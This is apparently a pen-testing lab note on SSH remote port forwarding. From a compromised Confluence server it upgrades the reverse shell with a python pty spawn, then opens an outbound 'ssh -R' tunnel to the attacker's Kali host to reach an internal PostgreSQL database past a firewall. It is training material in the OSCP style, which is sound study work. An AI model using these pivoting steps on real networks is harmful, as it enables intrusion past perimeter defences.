

---
aliases:
  - SSH remote port forwarding
  - remote port forwarding
  - remote port forward
---
# SSH Remote Port Forwarding
Unfortunately in the real world, [dynamic port forwarding](dynamic-port-forwarding.md) and [local-port-forwarding](local-port-forwarding.md) with SSH is not very useful because we rarely find ourselves in a situation where *we can make inbound connections to a device* like `CONFLUENCE01`. Most organizations configure their [firewalls](../../../cybersecurity/defense/firewalls.md) to restrict inbound connections. Outbound connections, however, are harder to restrict, so most networks allow common types of outbound traffic (like SSH) to keep things simple.

In pen-tests we're much more likely to be able to *[SSH](../../../networking/protocols/SSH.md) out of a network we've compromised*. In this situation, we can use *SSH remote port forwarding* to make an outbound connection to an SSH server *we control*.  The idea is similar to how [revshells](../../../cybersecurity/TTPs/exploitation/rev-shell.md) work.

Unlike local and dynamic port forwarding, where the listening port *is bound to the SSH client* (`CONFLUENCE01` in the [scenario](../linux-tools/port-forwarding-scenario.md) we've been using), in remote port forwarding, the listening port *is bound to the SSH server*. Additionally, the packets are *forwarded by the client* instead of by the SSH server.
## Scenario
Imagine we compromised `CONFLUENCE01` using the [same CVE](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html) as before, but this time, the network administrators have improved security by *implementing a firewall on the perimeter* which disallows inbound connections to the `CON01` server. The only port on the server that the firewall allows an outbound connection to is `8090`.

If we (again) want to enumerate the `PGDATABASE01` host on the internal network we're going to have to use SSH remote port forwarding because the firewall won't let us open a listening port on `CON01` (like we did using [socat](../linux-tools/socat.md)). 

What we can do instead is *SSH into our attacking machine from `CON01`*, then setup a *remote port forward SSH connection* back to the [loopback](../../../networking/routing/loopback.md) interface *of our kali machine*. The SSH server we start on our kali machine will listen for that connection and then forward the traffic from it back to `CON01` which will forward it again to `PGDATABASE01`:

## Setup and Execution
To set this up in general, we need to have an SSH server started on our attacking Kali machine. Then we need to SSH into `CON01`. From there, we need to create the SSH remote port forwarding connection which will connect back to our Kali machine. 

Assume we already have the revshell on `CON01`.
### Starting our SSH Server
To start the SSH server on our attacking box, we need to use OpenSSH. The OpenSSH server is  usually pre-installed, so all we have to do is start the service with `systemctl`:
```bash
kali@kali:~$ sudo systemctl start ssh
[sudo] password for kali: 
```
#### Check the SSH Port
We can make sure the SSH server port is open using `ss`:
```bash
kali@kali:~$ sudo ss -ntplu 
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:Port Process
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*     users:(("sshd",pid=181432,fd=3))
tcp   LISTEN 0      128             [::]:22           [::]:*     users:(("sshd",pid=181432,fd=4))
```
### Establishing the Remote Port Forward
Back on `CON01` we can now make our SSH remote port forward connection. For this, we're going to use the `ssh` command again with a flag of `-R` for remote port forwarding. But first, we should make sure we have a stable [TTY](../../../computers/linux/terminal-tty-shell.md)
#### TTY
```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'
</bin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
#### `ssh -R`
The `ssh` command has nearly the same syntax as the dynamic port forwarding `ssh` command did. After `-R` we list the connections we want to make, first to our SSH server, then to `PGDATABASE01` (which will be made by `CON01`). After listing the two hosts, then we'll put `kali@192.168.118.4`. This is the initial SSH connection back to our Kali machine:
```bash
$ ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
< 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4   
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '192.168.118.4 (192.168.118.4)' can't be established.
ECDSA key fingerprint is SHA256:OaapT7zLp99RmHhoXfbV6JX/IsIh7HjVZyfBfElMFn0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
kali@192.168.118.4's password:
```
> [!Note]
> Make sure you configure a *strong password* for the `kali` user you're SSHing onto your server as. Additionally, you will have to ensure that *password based authentication* is allowed by setting `PasswordAuthentication` to `yes` in `/etc/ssh/sshd_config`.
### Verifying the Connection
To make sure our remote port forward connection worked, we can use `ss` again on our *Kali machine* to check that port `2345` is open on the loopback interface:
```bash
kali@kali:~$ ss -ntplu
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
tcp   LISTEN 0      128        127.0.0.1:2345      0.0.0.0:*
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*
tcp   LISTEN 0      128             [::]:22           [::]:*
```
## Using the Connection
Now we can us the remote port forward connection to run tools against `PGDATABASE01`. For instance, if we want to use `psql` again (like we did in our [socat](../linux-tools/socat.md) scenario). This time the target host is *our own loopback address* since all of the traffic to that address (and port 2345) *is now configured to be forwarded to `CON01` and eventually to `PGDATABASE01`*:
```bash
kali@kali:~$ psql -h 127.0.0.1 -p 2345 -U postgres
Password for user postgres: 
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \l
                                  List of databases
    Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
------------+----------+----------+-------------+-------------+-----------------------
 confluence | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
 template1  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
(4 rows)

postgres=# 
```

> [!Resources]
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
